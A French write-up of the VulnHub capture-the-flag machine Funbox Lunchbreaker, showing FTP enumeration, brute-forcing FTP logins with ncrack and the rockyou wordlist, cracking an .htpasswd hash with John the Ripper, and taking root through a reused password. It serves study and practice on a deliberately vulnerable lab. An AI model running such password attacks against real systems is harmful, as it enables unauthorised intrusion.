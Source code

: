 ```yaml
---
title: Solution du CTF Funbox Lunchbreaker de VulnHub
tags: [CTF, VulnHub]
---
```


### Salade tomate oignon

Je continue dans la suite des CTFs Funbox avec le [Lunchbreaker](https://vulnhub.com/entry/funbox-lunchbreaker,700/).

On trouve différents services sur la VM : FTP, SSH et Apache.

Sur ce dernier, juste une image. Dans le code source, beaucoup d'espaces, mais finalement un indice en fin de ligne :

```html
<img src="image.jpg">          --- snip ---       <! webdesign by j.miller [jane@funbox8.ctf] >
```

Le nom d'hôte n'aura aucune importance ici, une énumération des virtual-hosts n'ayant rien remonté.

Sur le FTP, qui accepte les connexions anonymes, on trouve deux fichiers texte ainsi qu'un dossier `wordpress`.

```console
$ ftp anonymous@192.168.56.128
Connected to 192.168.56.128.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
229 Entering Extended Passive Mode (|||26948|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        118          4096 May 22  2021 .
drwxr-xr-x    3 0        118          4096 May 22  2021 ..
-rw-r--r--    1 0        0             233 May 22  2021 .s3cr3t
-rw-r--r--    1 0        0             633 May 22  2021 supers3cr3t
drwxr-xr-x    6 1006     1006         4096 May 22  2021 wordpress
226 Directory send OK.
```

Les fichiers texte n'ont rien d'intéressants. Dans `wordpress/wp-blog` je note la présence d'un fichier `.htaccess` :

```apacheconf
AuthType Basic
AuthName "s3cr3tzone"
AuthUserFile /srv/ftp/wordpress/wp-blog/.htpasswd
Require valid-user
```

Le fichier `.htpasswd` est malheureusement illisible à cause des permissions.

Bien sûr, je récupère la config du Wordpress qui pourrait être utile.

```php
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'wpuser' );
define( 'DB_PASSWORD', 'JuZhRbNNk.()' );
define( 'DB_HOST', '10.10.10.12' );
```

Ça s'arrête malheureusement là, puisque impossible de trouver le Wordpress sur le serveur.

De plus, je n'ai aucun accès en écriture sur le FTP !

### Moi Tarzan

On va donc brute-forcer le seul compte que l'on connait :

```console
$ ncrack -f -u jane -P wordlists/rockyou.txt ftp://192.168.56.128

Starting Ncrack 0.8 ( http://ncrack.org )

Discovered credentials for ftp on 192.168.56.128 21/tcp:
192.168.56.128 21/tcp ftp: 'jane' 'password'

Ncrack done: 1 service scanned in 10.20 seconds.

Ncrack finished.
```

Sur son compte FTP, je trouve un fichier avec des clés, mais aucune idée de leur utilité.

```console
$ cat keys.txt 
kJGgh-kiu65-zghku-76zzt-hgf56
llij8-fgzZ-rTzU1-ddfgz-i876S
```

À mieux regarder le FTP, je peux naviguer dans toute l'arborescence :

```console
$ ftp jane@192.168.56.128
Connected to 192.168.56.128.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||51336|)
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 May 22  2021 backups
226 Directory send OK.
ftp> cd /
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||20337|)
150 Here comes the directory listing.
lrwxrwxrwx    1 0        0               7 Feb 01  2021 bin -> usr/bin
drwxr-xr-x    4 0        0            4096 May 22  2021 boot
drwxr-xr-x    2 0        0            4096 May 22  2021 cdrom
drwxr-xr-x   18 0        0            4040 Jul 03 08:00 dev
drwxr-xr-x   98 0        0            4096 May 22  2021 etc
drwxr-xr-x    6 0        0            4096 May 22  2021 home
lrwxrwxrwx    1 0        0               7 Feb 01  2021 lib -> usr/lib
lrwxrwxrwx    1 0        0               9 Feb 01  2021 lib32 -> usr/lib32
lrwxrwxrwx    1 0        0               9 Feb 01  2021 lib64 -> usr/lib64
lrwxrwxrwx    1 0        0              10 Feb 01  2021 libx32 -> usr/libx32
drwx------    2 0        0           16384 May 22  2021 lost+found
drwxr-xr-x    2 0        0            4096 Feb 01  2021 media
drwxr-xr-x    2 0        0            4096 Feb 01  2021 mnt
drwxr-xr-x    2 0        0            4096 Feb 01  2021 opt
dr-xr-xr-x  186 0        0               0 Jul 03 08:00 proc
drwx------    4 0        0            4096 May 22  2021 root
drwxr-xr-x   28 0        0             840 Jul 03 08:37 run
lrwxrwxrwx    1 0        0               8 Feb 01  2021 sbin -> usr/sbin
drwxr-xr-x    6 0        0            4096 Feb 01  2021 snap
drwxr-xr-x    3 0        0            4096 May 22  2021 srv
-rw-------    1 0        0        653262848 May 22  2021 swap.img
dr-xr-xr-x   13 0        0               0 Jul 03 08:00 sys
drwxrwxrwt   12 0        0            4096 Jul 03 08:37 tmp
drwxr-xr-x   14 0        0            4096 Feb 01  2021 usr
drwxr-xr-x   14 0        0            4096 May 22  2021 var
226 Directory send OK.
ftp> ls home
229 Entering Extended Passive Mode (|||36897|)
150 Here comes the directory listing.
dr-x------    3 1002     1002         4096 May 22  2021 jane
dr-x------    3 1001     1001         4096 May 22  2021 jim
dr-x------    4 1000     1000         4096 May 22  2021 john
drwx------    4 1003     1003         4096 May 22  2021 jules
226 Directory send OK.
```

J'ai désormais plus d'utilisateurs. J'ai aussi récupéré la configuration d'Apache, mais il n'est mention de Wordpress nul-part.

### Jules et Jim

Pas grave, je parviens à casser un premier compte :

```
Discovered credentials for ftp on 192.168.56.128 21/tcp:
192.168.56.128 21/tcp ftp: 'jim' '12345'
```

Ce dernier dispose d'un fichier `.ssh/id_rsa` mais il est vide !

Tombe ensuite un second compte :

```
192.168.56.128 21/tcp ftp: 'jules' 'sexylady'
```

Cette fois, je peux obtenir un compte SSH :

```console
jules@funbox8:~$ id
uid=1003(jules) gid=1003(jules) groups=1003(jules)
jules@funbox8:~$ alias ls="ls -alh --color"
jules@funbox8:~$ ls
total 32K
drwx------ 4 jules jules 4.0K May 22  2021 .
drwxr-xr-x 6 root  root  4.0K May 22  2021 ..
drwx------ 2 jules jules 4.0K May 22  2021 .backups
-rw------- 1 jules jules   10 May 22  2021 .bash_history
-rw-r--r-- 1 jules jules  220 May 22  2021 .bash_logout
-rw-r--r-- 1 jules jules 3.7K May 22  2021 .bashrc
drwx------ 2 jules jules 4.0K May 22  2021 .cache
-rw-r--r-- 1 jules jules  807 May 22  2021 .profile
jules@funbox8:~$ ls .backups/
total 134M
drwx------ 2 jules jules 4.0K May 22  2021 .
drwx------ 4 jules jules 4.0K May 22  2021 ..
-r-------- 1 jules jules 134M May 22  2021 .bad-passwds
-r-------- 1 jules jules    0 May 22  2021 .forbidden-passwds
-r-------- 1 jules jules  562 May 22  2021 .good-passwd
-r-------- 1 jules jules    0 May 22  2021 .very-bad-passwds
jules@funbox8:~$ cat .backups/.good-passwd
igsdg457457
dsfg4537
sdfgsdfgsergwser
gwetr4357345
gw53463457
--- snip ---
435z3456u3&&
retjuh5rztu)))
ertzerzt&&&
ertzer!3
```

Je note la présence de wordlists qui serviront sans doute à quelque chose. Et ça tombe bien, car `jules` peut lire le fichier `.htpasswd` croisé au début (merci `LinPEAS`) :

```console
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-r-------- 1 jules jules 43 May 22  2021 /srv/ftp/wordpress/wp-blog/.htpasswd
john:$apr1$2gymw37l$w604wlgyqqNeOgNac.1qT/
```

Contre toute attente, il fallait utiliser la wordlist des mauvais passwords, pas ceux des bons :

```console
$ john --format=md5crypt-long --wordlist=.bad-passwds /tmp/hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
zhnmju!!!        (john)     
1g 0:00:00:00 DONE (2025-07-03 11:47) 33.33g/s 7466p/s 7466c/s 7466C/s zhnmju!!!..victor
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Une fois connecté, une note indique que le mot de passe du super-utilisateur est le même :

```console
john@funbox8:/home/jules$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),30(dip),46(plugdev)
john@funbox8:/home/jules$ cd
john@funbox8:~$ ls -al
total 28
dr-x------ 4 john john 4096 May 22  2021 .
drwxr-xr-x 6 root root 4096 May 22  2021 ..
-rw-r--r-- 1 john john  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 john john 3771 Feb 25  2020 .bashrc
drwx------ 2 john john 4096 May 22  2021 .cache
-rw-r--r-- 1 john john  807 Feb 25  2020 .profile
drwx------ 2 john john 4096 May 22  2021 .todo
john@funbox8:~$ ls .todo/
todo.list
john@funbox8:~$ cat .todo/todo.list 
1. Install LAMP
2. Install MAIL-System
3. Install Firewall
4. Install Plesk
5. Chance R00TPASSWD, because it's the same right now.
john@funbox8:~$ su root
Password: 
root@funbox8:/home/john# cd /root/
root@funbox8:~# ls
root.flag  run.sh  snap
root@funbox8:~# cat root.flag 
|~~          |           |              |    |              |         
|--|   ||/~\ |~~\/~\\/o  | |   ||/~\ /~~|/~\ |~~\|/~\/~//~~||_//~/|/~\
|   \_/||   ||__/\_//\o  |__\_/||   |\__|   ||__/|   \/_\__|| \\/_|   
                                                                    
created by @0815R2d2.

Congrats ! I look forward to see this on my twitter-account :-)
```

